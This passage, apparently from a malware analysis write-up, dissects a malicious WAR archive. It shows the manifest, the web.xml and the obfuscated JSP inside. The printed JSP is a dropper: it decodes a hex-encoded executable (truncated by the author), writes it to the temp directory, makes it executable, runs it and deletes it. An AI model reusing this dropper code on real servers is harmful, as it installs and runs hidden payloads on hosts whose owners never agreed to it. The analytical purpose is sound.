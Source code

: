 Inside the archive, there’s three files: `META-INF/MANIFEST.MF`, `WEB-INF/web.xml`, and `ppaejmsg.jsp`. The `MANIFEST.MF` file just contains some version information:

```

Manifest-Version: 1.0
Created-By: 1.6.0_17 (Sun Microsystems Inc.)

```

The `WEB-INF/web.xml` file is quite simple in this case, just identifying the jsp by name, and the servlet name:

```

<?xml version="1.0"?>
<!DOCTYPE web-app PUBLIC
"-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
"http://java.sun.com/dtd/web-app_2_3.dtd">
<web-app>
<servlet>
<servlet-name>gqsrnqtizzhn</servlet-name>
<jsp-file>/ppaejmsg.jsp</jsp-file>
</servlet>
</web-app>

```

The meat of the code is in `ppaejmsg.jsp` (with long hex string truncated by me for readability):

```

 1 <%@ page import="java.io.*" %>
 2 <%
 3   String tjSRohYSIVTEYgR = "4d5a90000300000004000000ffff...";
 4   String pkALAjcf = System.getProperty("java.io.tmpdir") + "/lcmWDJSTuqXlU";
 5
 6   if (System.getProperty("os.name").toLowerCase().indexOf("windows") != -1) {
 7     pkALAjcf = pkALAjcf.concat(".exe");
 8   }
 9
10   int ODEsMJtiDkS = tjSRohYSIVTEYgR.length();
11   byte[] YHxXvQEcNvT = new byte[ODEsMJtiDkS/2];
12   for (int PEQXASgLslZXAoO = 0; PEQXASgLslZXAoO < ODEsMJtiDkS; PEQXASgLslZXAoO += 2) {
13     YHxXvQEcNvT[PEQXASgLslZXAoO / 2] = (byte) ((Character.digit(tjSRohYSIVTEYgR.charAt(PEQXASgLslZXAoO), 16) << 4)
14                                               + Character.digit(tjSRohYSIVTEYgR.charAt(PEQXASgLslZXAoO+1), 16));
15   }
16
17   FileOutputStream BYhXIhapBQqShGa = new FileOutputStream(pkALAjcf);
18   BYhXIhapBQqShGa.write(YHxXvQEcNvT);
19   BYhXIhapBQqShGa.flush();
20   BYhXIhapBQqShGa.close();
21
22   if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1){
23     String[] NYqDzjSRU = new String[3];
24     NYqDzjSRU[0] = "chmod";
25     NYqDzjSRU[1] = "+x";
26     NYqDzjSRU[2] = pkALAjcf;
27     Process DrcLxlRyPVhwV = Runtime.getRuntime().exec(NYqDzjSRU);
28     if (DrcLxlRyPVhwV.waitFor() == 0) {
29       DrcLxlRyPVhwV = Runtime.getRuntime().exec(pkALAjcf);
30     }
31
32     File sGOssUgzJ = new File(pkALAjcf); sGOssUgzJ.delete();
33   } else {
```